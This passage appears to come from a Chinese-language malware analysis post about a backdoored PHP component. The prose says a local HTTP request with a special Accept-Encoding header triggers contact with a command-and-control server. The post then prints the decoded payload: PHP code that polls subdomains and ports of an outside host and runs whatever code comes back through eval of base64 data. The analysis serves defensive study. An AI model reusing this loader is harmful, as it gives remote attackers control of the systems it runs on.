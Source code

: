 ​	这段PHP代码功能是向本机发起一个HTTP请求，并带有`Accept-Encoding:compress,gzip`请求头，然后该请求就可以自动激活功能模块二，从而连接C&C服务器上传系统信息。自动触发方式结束后就会更新当前触发的时间，下一次就根据这个时间来判断是否进入自动触发方式：

![9]({{https://github.com/kumqu/kumqu.github.io/blob/master}}/assets/2019-09-30\9.PNG)

​	第二段base64数据解码如下:

```php
@ini_set("display_errors","0");
error_reporting(0);
function tcpGet($sendMsg = '', $ip = '360se.net', $port = '20123'){
	$result = "";
  $handle = stream_socket_client("tcp://{$ip}:{$port}", $errno, $errstr,10); 					     //接收数据，每次过来一条数据连接一次
  if( !$handle ){
    $handle = fsockopen($ip, intval($port), $errno, $errstr, 5);
      										//错误的时候就重连一次测试
	if( !$handle ){
		return "err";
	}
  }
  fwrite($handle, $sendMsg."\n");					  // 模拟发送数据
	while(!feof($handle)){
		stream_set_timeout($handle, 2);
		$result .= fread($handle, 1024);			  // 读取文件
		$info = stream_get_meta_data($handle);
		if ($info['timed_out']) {
		  break;
		}
	 }
  fclose($handle); 
  return $result; 
}

$ds = array("www","bbs","cms","down","up","file","ftp");// 域名表
$ps = array("20123","40125","8080","80","53");		   // 遍历端口表
$n = false;
do {
	$n = false;
	foreach ($ds as $d){ 							//遍历域名表
		$b = false;
		foreach ($ps as $p){						// 遍历端口表
			$result = tcpGet($i,$d.".360se.net",$p); 
			if ($result != "err"){
				$b =true;
				break;
			}
		}
		if ($b)break;
	}
	$info = explode("<^>",$result);
	if (count($info)==4){
		if (strpos($info[3],"/*Onemore*/") !== false){
			$info[3] = str_replace("/*Onemore*/","",$info[3]);
			$n=true;
		}
		@eval(base64_decode($info[3]));
	}
}while($n);
```
